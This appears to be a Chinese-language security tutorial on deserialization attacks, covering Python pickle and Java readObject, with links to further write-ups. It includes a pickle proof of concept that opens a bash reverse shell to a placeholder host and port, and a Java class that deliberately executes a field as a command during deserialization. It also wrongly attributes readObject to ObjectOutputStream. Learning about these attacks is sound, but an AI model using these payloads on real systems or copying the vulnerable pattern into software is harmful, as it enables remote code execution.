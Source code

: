 **`Deserialization + __call + SoapClient + CRLF = SSRF`**



### python反序列化

与PHP类似，python也有序列化功能以长期储存内存中的数据。pickle是python下的序列化与反序列化包。

python有另一个更原始的序列化包marshal，现在开发时一般使用pickle。

与json相比，pickle以二进制储存，不易人工阅读；json可以跨语言，而pickle是Python专用的；pickle能表示python几乎所有的类型（包括自定义类型），json只能表示一部分内置类型且不能表示自定义类型。

pickle实际上可以看作一种**独立的语言**，通过对opcode的更改编写可以执行python代码、覆盖变量等操作。直接编写的opcode灵活性比使用pickle序列化生成的代码更高，有的代码不能通过pickle序列化得到（pickle解析能力大于pickle生成能力）。

复制

```
# poc
import pickle
import base64
class A(object):
    def __reduce__(self):
        return (eval,("__import__('os').system('bash -c \"bash -i >& /dev/tcp/[IP]/[Port] 0>&1\"')",))
poc = A()
result = pickle.dumps(poc)
result = base64.b64encode(result)
print(result)
```

参考：

[Python-Pickle反序列化安全问题](https://www.f4de.ink/pages/20ac5e/#pickle：python的序列化库)

[pickle反序列化初探](https://xz.aliyun.com/t/7436)

[Code-Breaking中的两个Python沙箱](https://www.leavesongs.com/PENETRATION/code-breaking-2018-python-sandbox.html)

[pickle反序列化—高校抗“疫”网络安全分享赛](https://www.cnblogs.com/DEADF1SH-CAT/p/12465346.html)

[从零开始python反序列化攻击：pickle原理解析 & 不用reduce的RCE姿势](https://zhuanlan.zhihu.com/p/89132768)



### Java反序列化

Java序列化是指把Java对象转换为字节序列的过程，`ObjectOutputStream` 类的 `writeObject()` 方法可以实现序列化。

Java反序列化是指把字节序列恢复为Java对象的过程，`ObjectOutputStream` 类的 `readObject()` 方法用于反序列化。

一个类要能反序列化必须满足下面2个条件：

1. 该类必须实现 `java.io.Serializable` 接口；
2. 该类的所有属性必须是可序列化的。如果有一个属性不是可序列化的，则该属性必须注明是短暂的。

复制

```
public class User implements Serializable {
    private String username;
    public User(String username) {
        this.username = username;
    }
    public String getName(){
        return this.username;
    }
    private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
        in.defaultReadObject();
        Runtime.getRuntime().exec(this.username);
    }
}
```